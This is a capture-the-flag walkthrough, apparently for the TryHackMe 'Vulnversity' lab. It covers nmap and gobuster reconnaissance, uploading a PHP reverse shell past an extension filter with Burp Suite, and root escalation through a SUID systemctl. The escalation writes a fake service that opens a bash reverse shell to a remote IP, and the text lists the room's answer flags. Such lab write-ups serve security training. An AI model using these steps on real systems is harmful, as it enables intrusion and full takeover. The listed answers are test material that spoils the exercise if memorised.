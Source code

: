 # Vulnversity

## Task 1  Deploy the machine
- deploy

## Task 2  Reconnaissance
- There are many Nmap "cheatsheets" online that you can use too.
- Scan the box; how many ports are open? 6
  ```
  nmap -sC -sV 10.10.10.1 -T4
  ```
What version of the squid proxy is running on the machine? 3.5.12
How many ports will Nmap scan if the flag -p-400 was used? 400
What is the most likely operating system this machine is running? Ubuntu
What port is the web server running on? 3333
What is the flag for enabling verbose mode using Nmap? -v

## Task 3  Locating directories using Gobuster
- What is the directory that has an upload form page? /internal/
  ```
  gobuster dir -u http://10.10.10.1:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 100

  /internal/
  ```

## Task 4  Compromise the Webserver
- What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.? .php
  ```
  make file revshell .php, .php3, .php4, .php5, .phtml
  make file ext.txt > .php, .php3, .php4, .php5, .phtml

  open burpsuite
  and connect to proxy server with foxyproxy and add 127.0.0.1:8080
  submit and go to intereped
  and add payload file.ext
  ```
- Run this attack, what extension is allowed? .phptml
- What is the name of the user who manages the webserver? bill
  ```
  ls /home

  bill
  ```
- What is the user flag? 8bd7992fbe8a6ad22a63361004cfcedb
  ```
  cd /home/bill
  cat user.txt
  ```

## Task 5  Privilege Escalation
- On the system, search for all SUID files. Which file stands out? /bin/systemctl
  ```
  # target
  find / -user root -perm -4000 -exec ls -ldb {} \;
  ```
- It's challenge time! We have guided you through this far. Can you exploit this system further to escalate your privileges and get the final answer? a58ff8579f0a9270368d33a9966c7fd5
  ```
  # host
  find bash revese shell > tcp add add in execstar and change the ip ur ip tunel

  add file fake.service


  [unit]
  Description=fake

  [Service]
  Type=simple
  User=root
  ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.0.0.1/4242 0>&1"

  [Install]
  WantedBy=multi-user.target

  simpen dan jalankan server web dan pindahkan ke # target dan jalankan
  cd /tmp
  wget http:/10.10.10.10/fake.service

  systemctl enable /tmp/fake.service
  systemctl start fake

  a58ff8579f0a9270368d33a9966c7fd5
  ```